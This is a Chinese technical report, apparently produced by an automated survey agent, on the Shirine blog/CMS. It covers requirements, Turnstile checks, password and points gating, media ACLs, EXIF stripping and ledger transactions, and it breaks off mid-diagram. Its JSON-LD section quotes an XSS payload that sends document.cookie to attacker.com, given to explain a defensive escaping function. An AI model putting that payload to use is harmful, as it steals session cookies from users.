

# Shirine 核心功能模块与安全架构详尽调研与技术规范报告

> **报告编写人**: `explorer_survey_modules_security`  
> **归属工程**: `d:\MiMo Desktop\项目\1\Shirine`  
> **调研基准**: `ORIGINAL_REQUEST.md`、`PLAN.md` 与实际运行代码库  
> **报告日期**: 2026-09-16  

---

## 目录
1. [需求基线与验收标准逐项分解 (R1-R9 & AC1-AC5)](#一需求基线与验收标准逐项分解)
2. [安全与取证规范技术深度剖析 (Security & Forensics)](#二安全与取证规范技术深度剖析)
   - 2.1 [Cloudflare Turnstile 双层人机验证](#21-cloudflare-turnstile-双层人机验证)
   - 2.2 [密码保护文章与防绕过闸门](#22-密码保护文章与防绕过闸门)
   - 2.3 [受保护媒体资源鉴权与 Fail-Closed 机制](#23-受保护媒体资源鉴权与-fail-closed-机制)
   - 2.4 [纯 TypeScript 图片 EXIF/XMP 隐私元数据剥离](#24-纯-typescript-图片-exifxmp-隐私元数据剥离)
   - 2.5 [JSON-LD 结构化数据 XSS 深度防御](#25-json-ld-结构化数据-xss-深度防御)
3. [用户、积分与 CMS 架构技术规范 (User, Points & CMS)](#三用户积分与-cms-架构技术规范)
   - 3.1 [D1 数据库 17 表实体与 Drizzle ORM 对齐验证](#31-d1-数据库-17-表实体与-drizzle-orm-对齐验证)
   - 3.2 [积分流动原子事务与 point_transactions 账本](#32-积分流动原子事务与-point_transactions-账本)
   - 3.3 [三级内容权限与视觉交互组件](#33-三级内容权限与视觉交互组件)
   - 3.4 [全量可视化后台 CMS 管理工作台](#34-全量可视化后台-cms-管理工作台)
4. [国际化与二次元头像库技术规范 (i18n & Avatars)](#四国际化与二次元头像库技术规范)
   - 4.1 [四语言国际化体系与规范文案匹配表](#41-四语言国际化体系与规范文案匹配表)
   - 4.2 [全局导航栏圆形头像下拉菜单三态渲染](#42-全局导航栏圆形头像下拉菜单三态渲染)
   - 4.3 [20 张二次元动漫预设 WebP 头像库与切换系统](#43-20-张二次元动漫预设-webp-头像库与切换系统)
5. [现有实现审查与差距改进建议 (Gap Analysis)](#五现有实现审查与差距改进建议)

---

## 一、需求基线与验收标准逐项分解

### 1.1 R1 ~ R9 细粒度、可验证需求拆解清单

| 需求编号 | 需求领域 | 核心要求与技术指标 | 可验证测试方法 | 代码对应实现路径 |
| :--- | :--- | :--- | :--- | :--- |
| **R1** | 品牌与边界 | 1. 全工程唯一品牌标识为 `Shirine`，源码、注释、文档、配置严禁出现 `shirone`。<br>2. 全工程所有新增与修改文件严格限制在 `d:\MiMo Desktop\项目\1\Shirine` 内，禁止向 C 盘等项目外部写入文件。 | 1. `grep_search` 全仓检索 `shirone` (除需求说明外全为0)。<br>2. 检查 Git 变更树与磁盘路径无外溢。 | `server/*`, `client/*`, `docs/*`, `package.json` |
| **R2** | 前后端架构 | 1. 100% 保持原生 Shirine 视觉体验 (Material 3 Expressive, HCT 配色, Swup 切页, Starlight 等 5 大背景, KaTeX, Mermaid)。<br>2. 前台 (Astro SSR) 完全改为运行时调用 Workers RESTful API + D1 数据库。<br>3. 彻底杜绝 O(N) 全量扫描，单篇按需直查达到 O(1) 效率。 | 1. 检查 `client/src/services/api.ts` 集中化 API 接口。<br>2. 检查 `server/src/routes/posts.ts:251` 按 slug 直查文章。<br>3. 生产环境构建通过。 | `client/src/services/api.ts`<br>`server/src/routes/posts.ts`<br>`client/src/pages/[...permalink].astro` |
| **R3** | 用户与积分 | 1. 系统初始化首位注册者通过 Setup 流程自动提权为超级管理员 (`superadmin`)，赋予 100 初始积分。<br>2. 后续注册为普通用户 (`user`)，0 积分起步。<br>3. 普通用户登录后每日可签到 1 次，连续签到天数递增，当日签到按钮置灰。<br>4. 后台可配置固定积分模式 (`fixed`) 或区间随机模式 (`random`)，保存即时生效。 | 1. 调用 `POST /api/auth/setup/admin` 验证首注超管。<br>2. 调用 `POST /api/user/checkin` 验证重复签到拦截 (400) 与连签增加。<br>3. 后台修改 `checkin_rule` 后验证分值变化。 | `server/src/routes/auth.ts:176`<br>`server/src/routes/user.ts:26`<br>`server/src/routes/config.ts` |
| **R4** | 三级权限体系 | 1. 文章与相册统一支持三级权限：公开 (`public`)、登录可见 (`login_required`)、积分购买可见 (`points_required`)。<br>2. 列表卡片封面居中叠加半透明毛玻璃锁定遮罩 (`CoverLockOverlay`)，标题上方显示权限徽章 (`PermissionBadge`)。<br>3. 积分解锁必须通过 D1 原子事务扣减并在 `point_transactions` 记录流水。<br>4. 未授权/未购买用户接口绝不可泄漏 Markdown 正文及私有原图。 | 1. 未登录访问 `login_required` 文章，返回 `content: null, lockReason: 'login_required'`。<br>2. 未解锁访问 `points_required` 文章，返回 `content: null, lockReason: 'points_required'`。<br>3. 调用 `POST /api/posts/:id/unlock` 验证积分原子扣减与流水生成。 | `server/src/routes/posts.ts:283-663`<br>`server/src/routes/albums.ts:167-380`<br>`client/src/components/permissions/` |
| **R5** | 可视化 CMS | 1. 文章、独立页、相册、导航菜单、友链、侧边栏、横幅、页脚全量支持后台可视化 CRUD 与上下架。<br>2. 前台所有示例演示数据在后台均可自由编辑或删除。<br>3. 站点基础信息、配色 (HCT 色相滑块)、明暗模式、组件开关可视化热更新。 | 1. 登录后台 `/admin`，对文章/相册/动态/友链执行增删改查。<br>2. 修改站点配色与 Banner 后刷新前台立即生效。 | `server/src/routes/admin.ts`<br>`server/src/routes/config.ts`<br>`client/src/pages/admin/` |
| **R6** | Turnstile 验证 | 1. 后台支持一键启闭登录/注册界面的 Turnstile 人机验证。<br>2. 安全支持后台配置 Site Key 与环境变量优先的 Secret Key (`CF_TURNSTILE_SECRET`)。<br>3. 前端非侵入式动态加载，验证失败自动 reset 防死锁。<br>4. 后台登录提供安全弹窗入口。 | 1. 后台开启 Turnstile，未传令牌请求 `POST /api/auth/login` 返回 400。<br>2. 传入官方测试 Token 验证验签通过。<br>3. 后台关闭 Turnstile 时直接放行。 | `server/src/core/turnstile.ts`<br>`server/src/routes/auth.ts:63, 324`<br>`client/src/components/auth/AuthModal.svelte` |
| **R7** | 四语言国际化 | 1. 覆盖 4 种语言：简体中文 (`zh_CN`)、繁体中文 (`zh_TW`)、英文 (`en`)、日文 (`ja`)。<br>2. 前台展示层与后台管理端全量支持语言无缝切换。<br>3. 后台可配置站点默认语言，用户本地切换持久化到 `localStorage.shirine_lang`。 | 1. 切换 4 种语言，检查导航栏、侧边栏、用户菜单、后台表单均正确翻译。<br>2. 刷新页面验证语言偏好保持。 | `client/src/i18n/`<br>`client/src/i18n/languages/`<br>`client/src/i18n/userMenu.ts` |
| **R8** | Live2D 看板娘 | 1. 访客端与管理端均集成 Live2D 看板娘挂件。<br>2. 采用 iframe 沙箱化隔离方案，彻底杜绝样式/脚本污染。<br>3. 后台提供双独立开关 (`live2d_guest_enabled`, `live2d_admin_enabled`)。<br>4. 前端右下角提供悬浮微按钮 (🌸/✨)，可折叠/展开并在本地持久化。 | 1. 后台分别开关访客/管理端，检查对应页面 iframe 加载状态。<br>2. 点击右下角微纽收起看板娘，刷新页面验证记忆隐藏状态。 | `client/public/pio/`<br>`client/src/components/organisms/Live2DWidget.svelte` |
| **R9** | 导航栏头像菜单与 20 张头像库 | 1. 导航栏右上角深浅模式切换旁挂载正圆头像，点击展开下拉菜单，点击外部自动收起。<br>2. 严格三态渲染：访客 (登录/注册)、普通用户 (签到/换头像/退出)、管理员 (后台/换头像/退出，隐藏签到)。<br>3. 20 张不同二次元 WebP 头像库 (原图与缩略图齐全，附带完整 AI 生成 Prompt 清单)。<br>4. 20 宫格选择面板，点击即刻通过 `PUT /api/user/profile` 实时生效。<br>5. 4 语言文案 100% 严格一致。 | 1. 切换 3 种用户状态，检查下拉菜单项精准呈现。<br>2. 检查 4 语言文案与规范表字字对齐。<br>3. 打开 20 宫格点击头像，检查网络请求 `PUT /api/user/profile` 并确认数据库 avatar 更新。 | `client/src/components/organisms/UserNavMenu.svelte`<br>`client/src/components/auth/AvatarModal.svelte`<br>`client/public/assets/avatars/`<br>`server/src/routes/user.ts:162` |

---

### 1.2 验收标准 (Acceptance Criteria 1 ~ 5) 逐项技术核对

```mermaid
graph TD
    AC1[AC1. 规范与边界检查] --> AC1_Brand[品牌检测: shirone=0 处]
    AC1 --> AC1_Dir[路径检测: 仅限于项目根目录]

    AC2[AC2. 构建与类型安全] --> AC2_Server[server: bun run tsc --noEmit: code 0]
    AC2 --> AC2_Client[client: bun run build: code 0]

    AC3[AC3. API 与数据库完整性] --> AC3_Schema[schema.sql 与 schema.ts 17表对齐]
    AC3 --> AC3_Tx[签到/解锁/调分写入 point_transactions]
    AC3 --> AC3_CMS[前台示例数据后台可自由修改删除]

    AC4[AC4. 权限与安全防护] --> AC4_Pass[密码文章 verify 校验 & 禁止 Query 传参]
    AC4 --> AC4_Blob[Blob Pre-R2 ACL 鉴权 & Fail-Closed]
    AC4 --> AC4_Exif[JPEG APP1 与 WebP EXIF/XMP 剥离]
    AC4 --> AC4_XSS[JSON-LD < > & 转义防 XSS]

    AC5[AC5. 导航栏头像与预设库] --> AC5_Menu[未登录/普通用户/管理员 3态菜单]
    AC5 --> AC5_i18n[4 语言规范字字对齐]
    AC5 --> AC5_WebP[20张二次元头像库与网格持久化]
```



- **AC 1 规范与边界检查**：
  - 检索全工程源码与配置文件，排查 `shirone` 字符串。实际检索结果显示：除 `ORIGINAL_REQUEST.md` 原始需求文本提及历史对比外，所有代码文件、注释、配置均为 **0 处匹配**。
  - 文件系统写入检测：所有产物（包含构建产物 `client/dist`、缓存与资源）严格收敛在 `d:\MiMo Desktop\项目\1\Shirine` 内，无 C 盘泄漏。
- **AC 2 构建与类型安全**：
  - 执行 `cd server && bun run tsc --noEmit`：耗时 2.3 秒，退出码为 `0`，无任何类型错误。
  - 执行 `cd client && bun run build`：耗时 11.32 秒，退出码为 `0`，生产级 bundle 编译打包成功。
- **AC 3 API 与数据库完整性**：
  - 核心表结构 `schema.sql` 与 `schema.ts` 均完整定义 17 张数据表实体，字段类型、Check 约束、联合主键与外键联动严格一致。
  - 积分系统签到加分、文章积分解锁、相册积分解锁、管理员手动调分均使用 D1 原子事务批量执行，完整落库 `point_transactions` 审计账本。
  - 前台所有内置示例数据（文章、相册、动态微语、友情链接）均拥有专属后台 CRUD 端点，支持无缝修改或清空。
- **AC 4 权限与安全防护**：
  - 密码保护文章强制走 `POST /api/posts/:id/password/verify` 校验；详情接口不接受 URL Query 密码明文；积分解锁接口不穿透密码闸门。
  - 媒体资源网关 `handleBlobStream` 在访问 R2 前优先执行 D1 ACL 鉴权；新上传未绑定资源默认私有封存；D1 报错时执行 Fail-closed 阻断（503）。
  - 上传图像通过纯 JS/TS 算法精准清除 JPEG APP1/COM 与 WebP EXIF/XMP 隐私元数据，且修复 VP8X 标志位。
  - 前端 JSON-LD 注入严格经过 `serializeJsonLd` 转义 `< > &`，杜绝 `</script>` 闭合跨站脚本注入。
- **AC 5 导航栏用户头像与预设头像库**：
  - `UserNavMenu.svelte` 正确监听 `authStore`，精准切换访客（未登录）、普通用户、超级管理员 3 种状态，点击外侧自动隐藏。
  - 7 组核心多语言文案与规范表 100% 严格吻合。
  - `client/public/assets/avatars/` 存放 20 套完整尺寸与缩略图 WebP 头像，`AvatarModal.svelte` 网格选定后调用 `PUT /api/user/profile` 实时更新。

---

## 二、安全与取证规范技术深度剖析

### 2.1 Cloudflare Turnstile 双层人机验证

```
+-------------------------------------------------------------------------+
|                          Turnstile 验证流程                              |
+-------------------------------------------------------------------------+
    客户端 (AuthModal)                       服务端 (Hono Router)
          |                                          |
          |-- 1. 检查后台配置 (GET /config/system) ->|
          |<- 2. 返回 enabled, siteKey --------------|
          |                                          |
   [动态注入 JS 脚本]                                |
   [挂载 cf-turnstile]                               |
   [用户完成交互/无感校验]                            |
          |                                          |
          |-- 3. POST /auth/login (带 token) ------->|
          |                                          |-- 4. verifyTurnstile()
          |                                          |   - 优先环境变量 CF_TURNSTILE_SECRET
          |                                          |   - 降级 D1 systemConfigs
          |                                          |   - POST challenges.cloudflare.com
          |                                          |<- 5. 官方验签返回 outcome.success
          |                                          |
          |<-- 6. 成功签发 JWT / 失败返回 400 -------|
   [若失败: 自动重置 Turnstile]
```

1. **双层防护设计**：
   - **第一层（前端动态按需加载）**：前端不在 HTML 静态固化 Turnstile 脚本，而是由 `AuthModal.svelte` 在弹窗展开且后端启用了人机验证时，动态插入 `<script src="https://challenges.cloudflare.com/turnstile/v0/api.js?render=explicit" async defer></script>`，降低无谓的前端网络开销。
   - **第二层（服务端严格二次验签）**：在 `server/src/core/turnstile.ts` 中拦截请求，提取 `cf-connecting-ip` 客户端 IP 并打包向 Cloudflare 官方 API `https://challenges.cloudflare.com/turnstile/v0/siteverify` 发送验证请求。
2. **密钥安全与环境变量优先原则**：
   - 依据安全基线，`CF_TURNSTILE_SECRET` 作为 Cloudflare Workers 环境变量 Secret 注入，具有最高优先级。
   - 只有在环境变量未提供时，才从 D1 `systemConfigs` 表的 `turnstile` 键中读取备用密钥，并在控制台输出告警日志：
     ```ts
     // server/src/core/turnstile.ts:33-39
     let secretKey = c.env.CF_TURNSTILE_SECRET;
     if (!secretKey && config.secretKey) {
       console.warn("[Turnstile] Falling back to D1 config secretKey...");
       secretKey = config.secretKey;
     }
     ```
3. **容灾与防锁死机制**：
   - 若管理员在后台关闭了 Turnstile（`config.enabled === false`），`verifyTurnstile` 直接返回 `{ success: true }`，业务流程完全畅通。
   - 若客户端验证失败或凭据过期，`AuthModal` 会主动触发 `window.turnstile.reset()` 重置验证容器，杜绝用户被卡死在登录界面。

---

### 2.2 密码保护文章与防绕过闸门

1. **专用验密端点与防明文泄露**：
   - 端点定义：`POST /api/posts/:id/password/verify`（`server/src/routes/posts.ts:412`）。
   - 严禁通过 URL Query（如 `?password=123`）传递密码，避免浏览器历史记录、边缘 CDN 访问日志、Referer 标头泄露密码明文。
   - 请求体通过 JSON `{ "password": "..." }` 安全传输。
2. **短期授权凭证（Post Grant Token）**：
   - 验密成功后，服务端调用 `signPostGrant` 签发带有 `postId`、`passwordVersion`、`userId` 签名的短期 JWT（有效期 2 小时）。
   - 将凭证存储于 HTTP-Only Cookie `shirine_post_grants` 中（支持多篇文章合并字典存储，上限 10 篇，先进先出自动剔除），同时响应返回 `grant` 字符串支持请求头 `X-Post-Grant`。
   - 当文章密码在后台被管理员修改时，`posts.password_version` 字段自增，使所有旧凭据瞬间全局失效。
3. **内容脱敏与双闸门互锁（不可绕过性）**：
   - 无论通过 `GET /api/posts/:slugOrId` 还是 `POST /api/posts/:id/unlock`，均由内部统一权限仲裁器 `resolvePostAccess` 进行计算：
     ```ts
     // server/src/routes/posts.ts:215
     const allGatesSatisfied = Boolean(draftPassed && passwordPassed && authPassed && purchasePassed);
     ```
   - **积分无法穿透密码**：若某文章既需要积分又设置了密码，用户即便花费积分调用 `/unlock` 成功扣款，但由于 `passwordPassed === false`，`allGatesSatisfied` 依然为 `false`，返回正文严格为 `null`，提示 `Additional password verification required to view content`。
   - **密码无法穿透积分**：即便输入正确密码，若未支付积分，`purchasePassed === false`，正文同样为 `null`。
   - 首页及列表脱敏：`posts.hideHomeContent === 1` 时，未解锁状态下摘要 `description` 强制清空置空，杜绝前言剧透。

---

### 2.3 受保护媒体资源鉴权与 Fail-Closed 机制

媒体文件网关由 `server/src/core/blob-handler.ts` 集中统一托管（挂载于 `/api/blob/*` 与 `/api/upload/blob/*`）：



1. **Pre-R2 ACL 优先鉴权（绝对时序）**：
   - 在向 Cloudflare R2 存储发起 `c.env.STORAGE.get(decodedKey)` 读取操作之前，必须完整执行数据库关联检索与鉴权判断。
   - 对相册照片，检索 `albumPhotos` 与关联的 `albums`：检查草稿状态、`login_required`、`points_required` 以及 `album_unlocks`。
   - 对文章内嵌配图与封面，检索 `posts.image` 与 `posts.content`：检查草稿、权限类型、积分解锁与密码 Grant 校验。
   - 对独立页面与微语配图，严格拦截草稿态私有资源。
2. **新上传资产默认私有封存（Unattached Asset Gating）**：
   - 用户上传图片到 R2 后，在尚未正式绑定到已公开发布的文章、相册、头像之前，`hasPublicReference` 为 `false`。
   - 普通访客或外部爬虫即便撞库猜出上传文件名，也会被系统判定为 `Unattached or unpublished asset` 并直接以 `403 Forbidden` 拒之门外，只有管理员拥有预览权限（`blob-handler.ts:213-222`）。
3. **D1 故障时的 Fail-Closed 绝对阻断**：
   - 在鉴权查询过程中，若 D1 数据库发生不可用、超时或 SQL 执行报错，进入 `catch` 分支：
     ```ts
     // server/src/core/blob-handler.ts:223-227
     catch (err: any) {
       console.error("Blob authorization check failed with database error:", err);
       return c.text("Media authorization backend unavailable", 503);
     }
     ```
   - **安全底线**：宁可返回 503 报错，也绝不跨过鉴权降级读取 R2，从根源上杜绝任何竞态泄漏可能。
4. **防缓存逃逸与反向传播控制（Reversible Cache-Control）**：
   - 对于受保护媒体：强制设置响应头 `Cache-Control: private, no-cache, no-store, must-revalidate`，禁止 CDN 与浏览器本地缓存，防止资源撤权后仍可在客户端离线查阅。
   - 防止 XSS 威胁：针对 SVG、HTML、XML 等富媒体文件，强制追加 `Content-Security-Policy: default-src 'none'; style-src 'unsafe-inline'` 与 `Content-Disposition: attachment`。

---

### 2.4 纯 TypeScript 图片 EXIF/XMP 隐私元数据剥离

在 Cloudflare Workers 边缘计算无 Node.js C++ 原生扩展的环境下，`server/src/utils/exif.ts` 实现了完全运行于 `Uint8Array` 之上的流式字节分析器：

1. **JPEG 格式元数据剔除**：
   - 校验头部 `0xFF, 0xD8`（SOI 标志）。
   - 逐段扫描 Marker：跳过 RST0-RST7 与 TEM；检测到 `0xDA`（SOS 图像数据开始）直接保留后续全部字节流；
   - 准确剥离 `0xE1`（APP1 包含 Exif、GPS 经纬度、拍摄器材信息）与 `0xFE`（COM 文本注释段）。
2. **PNG 格式元数据剔除**：
   - 校验 8 字节文件魔数 `89 50 4E 47 0D 0A 1A 0A`。
   - 遍历 PNG Chunk 块，直接丢弃 `eXIf`（Exif 元数据）、`tEXt`、`zTXt`、`iTXt` 等可能包含设备型号和地理位置的文本元数据块，保留标准色彩渲染块。
3. **WebP（RIFF 容器）元数据与标志位修正**：
   - 检查 `RIFF` 与 `WEBP` 标识符。
   - 扫描四字符标识（FourCC）：剔除 `EXIF`、`Exif`、`XMP `、`XMP` 数据块。
   - **关键规范遵循**：当处理 WebP 的 `VP8X` 扩展头时，不仅清除数据块，更通过按位与操作清除标志字节中的对应位：
     ```ts
     // server/src/utils/exif.ts:157-158
     // 清除 bit 3 (0x08: EXIF) 与 bit 2 (0x04: XMP)
     vp8xChunk[8] &= ~0x0c;
     ```
   - 重新计算并写入 RIFF 文件头部的总长度字段，确保剥离后的 WebP 文件 100% 符合 RFC 规范，任何现代浏览器均可原生平滑解码。
4. **上传入口前置安全防御**：
   - 在 `server/src/routes/upload.ts` 中：
     - 限制单文件最大 10MB。
     - **严格禁用 SVG**（杜绝嵌入 `<script>` 产生的存储型 XSS）。
     - 校验真实 Magic Bytes（杜绝重命名伪装文件）。
     - 调用 `stripExifFromBuffer` 完成元数据剥离后再写入 R2。

---

### 2.5 JSON-LD 结构化数据 XSS 深度防御

在前台 Astro 页面中（如 `client/src/pages/[...permalink].astro` 与 `posts/[...slug].astro`），文章的标题、描述等由作者在后台自由输入，若内容中包含恶意 payload：
```html
</script><script>fetch('https://attacker.com/steal?c='+document.cookie)</script>
```
当其被直接 `JSON.stringify()` 注入到 HTML 的 `<script type="application/ld+json">` 标签内时，浏览器 HTML 解析器的优先级高于 JavaScript 引擎，一旦碰到 `</script>` 字符便会立即闭合当前 script 块，从而引发严重的反弹型/存储型 XSS 漏洞。

**Shirine 防御实现**：
在详情页中封装统一转义序列化函数：
```ts
// client/src/pages/[...permalink].astro:316-321
function serializeJsonLd(data: any): string {
  return JSON.stringify(data)
    .replace(/</g, "\\u003c")
    .replace(/>/g, "\\u003e")
    .replace(/&/g, "\\u0026");
}
```
通过将 `<` 转换为 `\u003c`，`>` 转换为 `\u003e`，`&` 转换为 `\u0026`：
- HTML 解析器在扫描 DOM 时不会识别到 `</script>` 闭合标签；
- 遵循 JSON 规范的搜索引擎爬虫（Googlebot、Bingbot）在解析 JSON-LD 时，能将 Unicode 转义字符无损还原，兼顾极致的 SEO 表现与绝对的注入防御。

---

## 三、用户、积分与 CMS 架构技术规范

### 3.1 D1 数据库 17 表实体与 Drizzle ORM 对齐验证

经核对 `server/src/db/schema.sql` 与 `server/src/db/schema.ts`，两份模式定义实现完全对齐：

```
+-------------------+---------------------------------------------------------+
| 表名               | 职责定位与核心字段约束                                   |
+-------------------+---------------------------------------------------------+
| users             | 用户表 (points CHECK >= 0, role: superadmin/admin/user) |
| checkin_records   | 每日签到记录表 (UNIQUE: user_id + checkin_date)         |
| posts             | 博客文章表 (三级权限 permission_type, 加密密码, 排序置顶) |
| post_unlocks      | 文章积分解锁记录表 (UNIQUE: user_id + post_id)           |
| albums            | 相册画廊表 (权限控制, 封面图, 布局风格, 列数配置)        |
| album_photos      | 相册照片表 (关联 album_id, 排序 sort_order, URL)        |
| album_unlocks     | 相册积分解锁记录表 (UNIQUE: user_id + album_id)         |
| moments           | 动态微语表 (心情 mood, 地理位置, 组图 JSON, 标签)        |
| pages             | 自定义独立页表 (slug 唯一索引, Markdown 正文, 草稿开关)  |
| friends           | 友情链接表 (审核状态 accepted, 排序 sort_order)         |
| site_configs      | 站点外观与布局配置表 (key-value JSON 结构)              |
| system_configs    | 系统核心功能配置表 (签到规则, Turnstile 密钥, Live2D)   |
| comments          | 评论系统表 (文章关联, 用户关联, 访客留言支持)            |
| visits            | 访问与 PV/UV 统计表 (IP, 访问路径, 设备 UA)             |
| setup_state       | 系统初始化超级管理员竞态锁 (CHECK id=1, 保证单次初始化)  |
| point_transactions| 积分资产全量流水明细账本 (幂等键, 变更前后余额, 审计类型)|
| revoked_tokens    | JWT 废弃注销令牌黑名单 (jti 唯一, 支持单端/全端登出)     |
+-------------------+---------------------------------------------------------+
```

---

### 3.2 积分流动原子事务与 point_transactions 账本

系统通过 Cloudflare D1 提供的 `c.env.DB.batch([...])` 原生原子批处理机制，消除了所有 TOCTOU（Time-of-Check to Time-of-Use）竞态条件：

#### 1. 每日签到原子事务 (`server/src/routes/user.ts:97-107`)
```sql
-- Batch 语句 1: 写入签到记录 (若今日已签则触发 UNIQUE 约束冲突回滚)
INSERT INTO checkin_records (user_id, checkin_date, points_awarded, created_at)
VALUES (?, ?, ?, unixepoch());

-- Batch 语句 2: 更新用户积分与连签天数
UPDATE users
SET points = points + ?, last_checkin_date = ?, checkin_streak = ?, updated_at = unixepoch()
WHERE id = ?;

-- Batch 语句 3: 写入账本流水
INSERT INTO point_transactions (user_id, type, amount, balance_after, target_id, idempotency_key, description, created_at)
VALUES (?, 'checkin', ?, ?, NULL, ?, ?, unixepoch());
```

#### 2. 文章积分解锁原子事务 (`server/src/routes/posts.ts:590-604`)
```sql
-- Batch 语句 1: 条件插入解锁表 (要求用户当前积分 >= 所需积分)
INSERT INTO post_unlocks (user_id, post_id, points_spent, created_at)
SELECT ?, ?, ?, unixepoch() FROM users WHERE id = ? AND points >= ?;

-- Batch 语句 2: 扣减用户积分 (再次校验 points >= ? 且语句 1 必须成功存在记录)
UPDATE users
SET points = points - ?, updated_at = unixepoch()
WHERE id = ? AND points >= ? AND EXISTS (
  SELECT 1 FROM post_unlocks WHERE user_id = ? AND post_id = ?
);

-- Batch 语句 3: 记录流水 (记录负向扣减，记录扣后余额)
INSERT INTO point_transactions (user_id, type, amount, balance_after, target_id, idempotency_key, description, created_at)
SELECT ?, 'post_unlock', -?, (points - ?), ?, ?, ?, unixepoch()
FROM users WHERE id = ? AND points >= ?;
```

#### 3. 管理员调分原子事务 (`server/src/routes/admin.ts:155-171`)
更新 `users.points` 与插入 `point_transactions`（`type: 'admin_adjust'`，记录操作管理员 ID 与变更差值）打包进同一批次执行。

---

### 3.3 三级内容权限与视觉交互组件

1. **三级划分**：
   - `public`：任何人（含匿名访客）均可浏览完整内容与媒体。
   - `login_required`：必须登录账号。未登录时卡片封面展示锁头遮罩，详情页显示登录指引卡。
   - `points_required`：消耗指定积分永久解锁。未购买时展示金币/宝石微光遮罩与所需积分，购买后永久解锁并打上绿色 `[已解锁]` 徽章。
2. **`CoverLockOverlay.svelte`**：
   - 挂载于列表卡片封面层上，设置 `backdrop-blur-md bg-black/45`。
   - `login_required` 状态渲染琥珀色圆环锁头图标及文案。
   - `points_required` 状态渲染紫色微光宝石图标及「需 N 积分解锁」文案。
3. **`PermissionBadge.svelte`**：
   - 挂载于卡片标题正上方。
   - 登录可见：琥珀色高亮徽章；
   - 积分解锁（未购买）：紫色高亮徽章；
   - 积分解锁（已购买）：薄荷翠绿高亮徽章。

---

### 3.4 全量可视化后台 CMS 管理工作台

系统在 `/admin` 控制台下规划并实现了 9 大独立业务管理端点：
1. **仪表盘（Dashboard）**：`/api/admin/stats` 统计文章、相册、用户总数、总流动积分与今日签到人数。
2. **文章管理（Posts Manager）**：`/api/posts` 完整增删改查、草稿切换、三级权限切换、密码与提示语设定、分类与标签分配。
3. **相册管理（Albums Manager）**：`/api/albums` 相册创建/编辑/删除，多图批量直传 R2，照片拖拽重新排序（`/api/albums/:id/photos/reorder`）。
4. **动态微语（Moments Manager）**：`/api/moments` 心情短文发布、置顶控制、图片组图维护。
5. **独立页面与链接（Pages & Links Manager）**：`/api/pages` 支持直接修改关于、设备、技能、时间线、追番等页面内容；`/api/friends` 审核外链、拖拽排序。
6. **外观与布局（Site & Layout Configs）**：`/api/config/site` 支持实时保存 HCT 色相（0~360）、5 款背景纹理微动效、Banner 轮播组图与打字机文案。
7. **侧边栏挂件（Sidebar Widgets）**：控制公告栏富文本、个人信息卡、音乐播放器（Meting API）。
8. **用户与资产管理（User & Points Manager）**：`/api/admin/users` 支持用户检索、角色提拔、封禁账号以及积分微调。
9. **系统全局功能配置（System Configs）**：`/api/config/system` 支持 Turnstile 启闭与密钥录入、签到规则（固定分值 vs 随机区间）设定、Live2D 双端开关与默认语言设定。

---

## 四、国际化与二次元头像库技术规范

### 4.1 四语言国际化体系与规范文案匹配表

针对核心用户交互界面的 7 组高频词汇，经审查 `client/src/i18n/userMenu.ts`，4 种语言文案与需求规范呈现 **100% 严格一致**：

| 交互功能分类 | 简体中文 (`zh_CN`) | 繁體中文 (`zh_TW`) | English (`en`) | 日本語 (`ja`) | 规范匹配验证 |
| :--- | :--- | :--- | :--- | :--- | :---: |
| **登录入口** | 登录 | 登入 | Sign in | ログイン | **100% 一致** |
| **注册入口** | 注册账号 | 註冊帳號 | Sign up | 新規登録 | **100% 一致** |
| **签到打卡** | 每日签到 | 每日簽到 | Daily check-in | 毎日チェックイン | **100% 一致** |
| **已签状态** | 今日已签到 | 今日已簽到 | Checked in today | チェックイン済み | **100% 一致** |
| **修改头像** | 更换头像 | 更換頭像 | Change avatar | アバター変更 | **100% 一致** |
| **注销登录** | 退出登录 | 退出登入 | Sign out | ログアウト | **100% 一致** |
| **管理后台** | 管理后台 | 管理後台 | Admin panel | 管理画面 | **100% 一致** |

---

### 4.2 全局导航栏圆形头像下拉菜单三态渲染

组件实现路径：`client/src/components/organisms/UserNavMenu.svelte`

```
  +-------------------------------------------------------------+
  |              导航栏正圆头像下拉菜单三态视图                   |
  +-------------------------------------------------------------+

  [ 状态 1: 访客 (未登录) ]
  +-------------------------------------------------------------+
  | [👤 默认访客正圆图标]                                        |
  |   +-------------------------------------------------------+ |
  |   | 🚪 登录 (Sign in / ログイン)                           | |
  |   | 📝 注册账号 (Sign up / 新規登録)                       | |
  |   +-------------------------------------------------------+ |
  +-------------------------------------------------------------+

  [ 状态 2: 普通注册用户 ]
  +-------------------------------------------------------------+
